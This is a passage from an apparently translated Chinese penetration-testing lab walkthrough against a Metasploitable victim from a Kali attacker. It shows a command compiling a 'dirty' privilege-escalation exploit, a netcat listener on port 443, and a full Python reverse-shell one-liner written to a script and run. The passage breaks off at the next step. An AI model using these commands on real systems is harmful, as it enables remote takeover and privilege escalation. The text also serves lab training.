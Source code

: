 9.可选项:在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

编译肮脏的利用(对卡利)。仅当漏洞无法在本地编译时才执行此步骤。

```
file=dirty
gcc -pthread -o /tmp/${file}_x64 /tmp/${file}.c -lcrypt
```

![](img/2f1f4e0e8b2070bb6356267588c40f4d.png)

遗憾的是，无法在 Kali 上为 x86 系统编译此漏洞。但是你可以在 32 位的 Ubuntu 架构上编译它。

10.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

为第二个反向 shell 启动一个 netcat 监听器。

```
rlwrap nc -nlvp 443
```

![](img/09c57b2c5405ccde5bd1e2b333ed7320.png)

11.在 192.168.62.162 上执行(受害者机器，Metasploitable)。

用我们的目标机器设置第二个反向外壳。我们将使用 python2 反向外壳。

```
vulnscript=/tmp/rev-shell.sh
LHOST=192.168.62.161
LPORT=443
echo """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"${LHOST}\",${LPORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'""" >$vulnscript
chmod 755 /tmp/rev-shell.sh
cd /tmp
./rev-shell.sh &
```

![](img/8ccbb7e12648c973b42fdb62328fc2f9.png)

在我们的 Kali 机器上:
